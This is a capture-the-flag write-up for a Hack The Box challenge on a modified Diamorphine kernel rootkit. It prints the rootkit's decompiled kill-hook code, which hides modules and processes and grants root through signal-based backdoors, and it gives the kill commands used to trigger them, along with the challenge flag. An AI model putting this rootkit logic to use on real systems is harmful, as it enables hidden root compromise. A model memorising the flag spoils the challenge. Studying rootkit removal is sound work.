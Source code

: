 ![https://app.hackthebox.com/challenges/536](https://app.hackthebox.com/challenges/536)

I immediately notice the README provided with the injected library. I decide to search for **“Diamorphine github”** and I find [Diamorphine](https://github.com/m0nad/Diamorphine).

There I also see the instructions for shutdown. I connect to the instance with:

```bash
nc -nv 94.237.59.174 58293
```

and try the shutdown commands:

```bash
kill -63 0
rmmod diamorphine
```

but it crashes with `kill -63 0`, so the attacker probably modified the code. I open it in **Binary Ninja** to look for the killswitch.

I find it here:

```
00000280  int64_t hacked_kill()

00000280      void* rdi_6 = __fentry__()
0000028b      int32_t rax = (*(rdi_6 + 0x68)).d
0000028b      
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
0000029f      else
000002a1          void* const rdx_1 = init_task
000002a1          
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
000002b4      
000002c4      return __x86_return_thunk() __tailcall
```

## Analysis

```
00000296      if (rax == 0x2e)
00000348          if (module_hidden != 0)
0000034a              uint64_t module_previous_1 = module_previous
00000354              void* rdx_5 = *module_previous_1
00000357              *(rdx_5 + 8) = 0x10d8
0000035f              data_10d8 = rdx_5
00000368              data_10e0 = module_previous_1
0000036f              module_hidden = 0
00000376              *module_previous_1 = 0x10d8
00000385              return __x86_return_thunk() __tailcall
00000385          
000003ad          uint64_t rax_15 = data_10e0
000003b4          void* rdx_8 = data_10d8
000003be          *(rdx_8 + 8) = rax_15
000003c2          module_previous = rax_15
000003c9          *rax_15 = rdx_8
000003d6          data_10d8 = -0x2152ffffffffff00
000003e1          data_10e0 = -0x2152fffffffffede
000003ed          module_hidden = 1
```

This block corresponds to toggling the module visibility (**hide/unhide the kernel module**) when calling:

```
kill -46 0
```

---

```
00000296      else if (rax == 0x40)
000002fe          int64_t rax_8 = prepare_creds()
000002fe          
0000030c          if (rax_8 != 0)
0000030e              __builtin_memset(s: rax_8 + 4, c: 0, n: 0x20)
0000032e              commit_creds(rax_8)
0000033b              return __x86_return_thunk() __tailcall
```

This block corresponds to **privilege escalation to root** via:

```
kill -64 0
```

---

```
000002ab          if (rax == 0x1f)
000002d5              while (true)
000002d5                  void* rax_5 = *(rdx_1 + 0x8b8)
000002dc                  rdx_1 = rax_5 - 0x8b8
000002dc                  
000002e9                  if (rax_5 == (init_task + 0x8b8))
000002e9                      break
000002e9                  
000002cf                  if ((*(rdi_6 + 0x70)).d == *(rax_5 + 0x108))
0000038d                      if (rdx_1 == 0)
0000038d                          break
0000038d                      
00000393                      *(rax_5 - 0x88c) ^= 0x10000000
000003a8                      return __x86_return_thunk() __tailcall
000003a8              
000002f9              return __x86_return_thunk() __tailcall
000002f9          
000002ad          orig_kill
000002b4          __x86_indirect_thunk_rax()
```

This block corresponds to **hiding/unhiding a specific process** via:

```
kill -31 <pid>
```

### Plan of Action

1. **Escalate privileges to root**:

```bash
kill -64 0
```

2. **Make the module visible again**:

```bash
kill -46 0
```

3. **Unload the malicious module**:

```bash
rmmod diamorphine
```

You can check if it’s gone with:

```bash
lsmod | grep diamorphine
```

which should return nothing.

### Final Step

Search for the flag:

```bash
find / -name flag.txt 2>/dev/null
```

and I find it at:

```
/opt/psychosis/flag.txt
```

```
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```